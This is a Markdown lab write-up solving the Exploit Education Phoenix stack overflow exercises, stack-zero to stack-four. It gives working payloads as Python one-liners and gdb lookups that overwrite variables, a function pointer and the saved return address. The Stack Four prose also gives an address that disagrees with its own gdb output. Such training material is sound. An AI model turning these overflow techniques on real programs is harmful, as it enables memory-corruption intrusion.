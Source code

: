 # Stack overflow

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on stack memory overflow.

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Stack Zero

### Exercise

Description: https://exploit.education/phoenix/stack-zero/

### Solution

`gets` function is not limited on the buffer size, causing possible overflow of variable that are stored in lower addresses.

The goal here is to send a content too fill the buffer, and override the `changeme` variable that is located next to the end of the `buffer` in the stack.

```
$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Well done, the 'changeme' variable has been changed!
```

## Stack One

### Exercise

Description: https://exploit.education/phoenix/stack-one/

### Solution

The solution is similar to the previous exercise, but we have to control what value we assign the variable `changeme` to.

```
$ ./stack-one HELLO
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

$ ./stack-one `python -c 'print ("A"*64)+"\x62\x59\x6c\x49" '`
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack Two

### Exercise

Description: https://exploit.education/phoenix/stack-two/

### Solution

The solution is similar to the previous exercise, but we have to control what value we assign the variable `changeme` to (using an environment variable).

```
$ ExploitEducation=HELLO ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

$ ExploitEducation=`python -c 'print ("A"*64)+"\x0a\x09\x0a\x0d"'` ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack Three

### Exercise

Description: https://exploit.education/phoenix/stack-three/

### Solution

The solution is similar to the previous exercise, but we have to control the address the function pointer `fp` will call.

We will assign it to the `complete_level` function (located at 0x0040069d)

```
$ gdb ./stack-three
(gdb) info functions 
…
0x000000000040069d  complete_level
0x00000000004006b5  main
…

$ python -c 'print ("A"*64)+"\x9d\x06\x40" ' | ./stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

## Stack Four

### Exercise

Description: https://exploit.education/phoenix/stack-four/

### Solution

The solution is similar to the previous exercise, but we have to control the control flow by overriding the `rip` address after returning from the main function.

This address is stored at the begging of the stack frame. (See CPU / Stack for more information)

We will assign it to the `complete_level` function (located at 0x0040069d)

```
$ gdb ./stack-four 
(gdb) info functions 
...
0x000000000040061d  complete_level
0x0000000000400635  start_level
…

$ python -c 'print ("A"*88)+"\x1d\x06\x40\x00\x00\x00\x00\x00" ' | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
